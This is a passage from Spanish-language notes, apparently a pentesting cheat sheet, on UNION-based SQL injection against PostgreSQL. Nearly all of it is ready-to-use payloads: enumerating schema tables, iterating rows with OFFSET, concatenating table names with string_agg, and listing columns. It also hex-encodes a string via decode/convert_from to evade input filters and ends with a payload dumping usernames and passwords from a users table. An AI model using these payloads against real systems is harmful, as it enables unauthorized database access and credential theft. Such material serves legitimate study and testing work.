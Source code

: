 ```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' -- 
```

### 3) Iterar (ej.: segunda fila, offset 1)

```bash
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema='public' LIMIT 1 OFFSET 1-- -
```

### 4) Concatenar todas las tablas del esquema (equivalente a `GROUP_CONCAT`)

```bash
' UNION SELECT NULL, (SELECT string_agg(table_name, ',') FROM information_schema.tables WHERE table_schema='public')-- 
```


---
## Cadena hex bytes


En ocasiones, por seguridad de la página, puede ser que no podamos introducir ciertas cadenas como `'public`. Para estos casos podemos introducir la cadena en hex byte (para PostgreSQL) de la siguiente forma: primero convertimos la cadena a hexadecimal

```shell
echo -n "public" | xxd -p
```

Resultado:

```shell
7075626c6963
```

PostgreSQL no reconoce `0x` como literal hexadecimal para cadenas. En PostgreSQL hay que:

- convertir la cadena hex a `bytea` con `decode('hexstring','hex')`, y luego

- convertir el `bytea` a texto con `convert_from(..., 'UTF8')` (si la cadena original está en UTF‑8)

```shell
' UNION SELECT NULL, table_name FROM information_schema.tables WHERE table_schema = convert_from(decode('7075626c6963','hex'),'UTF8')-- -
```

![Captura](./Imágenes/web_13.png)


---

## Listar columnas de una tabla



```sql
' UNION SELECT 1, column_name FROM information_schema.columns WHERE table_name='nombre_tabla'-- -
```


---
## Extraer usuarios de una tabla `users`



```sql
' UNION SELECT username, password FROM users-- -
```
